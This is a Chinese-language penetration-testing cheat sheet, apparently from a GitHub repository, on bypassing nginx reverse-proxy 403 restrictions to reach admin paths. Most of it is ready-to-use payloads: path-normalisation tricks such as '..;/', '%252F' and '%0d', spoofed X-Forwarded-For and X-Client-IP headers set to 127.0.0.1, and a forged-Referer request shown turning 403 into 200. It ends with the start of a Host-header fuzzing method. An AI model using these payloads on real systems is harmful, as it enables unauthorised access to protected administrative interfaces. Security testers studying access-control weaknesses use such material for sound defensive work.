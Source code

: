 ## 0x00 技术背景

       之前碰过几个项目，中间件nginx做反向代理，后端代码是PHP或者JAVA，过nginx一般会识别ip，从而限制攻击者访问敏感路径，所以可以通过绕过方式限制nginx
       
       
## 0x01 forbidden绕过


      site.com/admin => 403
      site.com/admin/ => 200
      site.com/random-dir/../admin => 200
      site.com/random-dir/..;/admin => 200
      site.com/random-dir/..%252F/admin => 200
      site.com/admin// => 200
      site.com//admin// => 200
      site.com/admin/* => 200
      site.com/admin/*/ => 200
      site.com/admin/. => 200
      site.com/admin/./ => 200

      site.com/./admin/./ => 200
      site.com/admin/./. => 200
      site.com/admin/./. => 200
      site.com/admin? => 200
      site.com/admin?? => 200
      site.com/admin??? => 200
      site.com/admin..;/ => 200
      site.com/admin/..;/ => 200
      site.com/%2f/admin => 200
      site.com/%2e/admin => 200
      site.com/admin%20/ => 200
      site.com/admin%09/ => 200
      site.com/%20admin%20/ => 200
      site.com/%0dadmin => 200
      
## 0x02 添加各种头

     - X-Originating-IP: 127.0.0.1
     - X-Remote-IP: 127.0.0.1
     - X-Client-IP: 127.0.0.1
     - X-Forwarded-For: 127.0.0.1
     - X-Forwared-Host: 127.0.0.1
     - X-Host: 127.0.0.1
     - X-Custom-IP-Authorization: 127.0.0.1
     
      Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。
      
      GET /auth/login HTTP/1.1
      Host: xxx
      Response
      HTTP/1.1 403 Forbidden

      Reqeust
      GET / HTTP/1.1
      Host: xxx
      ReFerer:https://xxx/auth/login
      Response
      HTTP/1.1 200 OK

      之前碰见个项目，访问后台，提示403，添加Referer提示302成功


## 0x03 修改host头

      我们先说下 Host 在请求头中的作用，在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过 host 头来指定应该由哪个网站或者 web 系统来处理用户       的请求。
      
      很多 WEB 应用通过获取 HTTP HOST 头来获得当前请求访问的位置，但是很多开发人员并未意识到 HTTP HOST 头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。
      
      当服务器获取 HOST 的方式不当时，我们可以通过修改 Host 值来进行绕过。首先对该目标域名进行子域名收集，整理好子域名资产（host 字段同样支持 IP 地址）。先Fuzz 测试跑一遍收集到的       子域名，这里使用的是 Burp 的 Intruder 功能。
